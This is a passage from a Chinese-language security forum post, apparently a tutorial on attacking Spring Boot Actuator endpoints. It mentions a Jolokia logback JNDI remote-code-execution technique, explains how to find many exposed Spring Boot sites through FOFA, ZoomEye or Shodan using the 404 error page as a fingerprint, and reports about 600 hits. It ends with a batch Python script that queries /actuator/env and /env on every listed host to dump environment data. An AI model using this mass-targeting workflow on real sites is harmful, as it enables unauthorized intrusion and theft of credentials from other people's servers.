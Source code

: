 ![image-20210428122101659](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-39c02327844d9a974171aad33d2cccd3e802ec6f.png)

##### jolokia logback JNDI RCE

jolokia ！jolokia！jolokia! yyds

![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-73225d112816eb3b75855b962762a83b68b314f5.png)  
详情可在那个师傅 github 里面学习哟\\~（详情不做展开）

![image-20210428122639399](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-29f3024b0ac6b8e0be6191401f2e8d465a155dbc.png)

批量生产
----

呼呼呼\\~终于来到这里啦，

学习了这么多，怎么找嘛，还是骗人\\~（语气逐渐低沉）

来了来了

如果我们在fofa中找spring boot 的相关网站，我们可以使用icon，app，还能使用关键字呀\\~

如何定位spring boot的呢？

报错404呀

![image-20210428123102445](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-db666f91b339d0df0b96b43a5c0798c86f287337.png)

我们通过学习的信息搜集，一通合并

![image-20210428123131940](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a2a34f66b5ca454e28c344bfeb63f6c20aa9aeff.png)

ohhhh 600个

fofa这个特征是600个，如果换钟馗之眼呢？换shoadn呢？  
如果换个特征呢？

其他icon等之类的方法不做演示（避免危害太大5555555555）

这个是批量脚本，把url放到list里面就行啦

```php
import requests

list = ['','']

for i in list:
    try:
        url = "http://" +i + "/actuator/env"
        print(url)
        res = requests.get(url=url,allow_redirects=False,timeout=5)
        print(res.text)
        url = "http://" +i + "/env"
        print(url)
        res = requests.get(url=url,allow_redirects=False,timeout=5)
        print(res.text)
    except:
        pass

print("overeeeeeeeeeee")
```
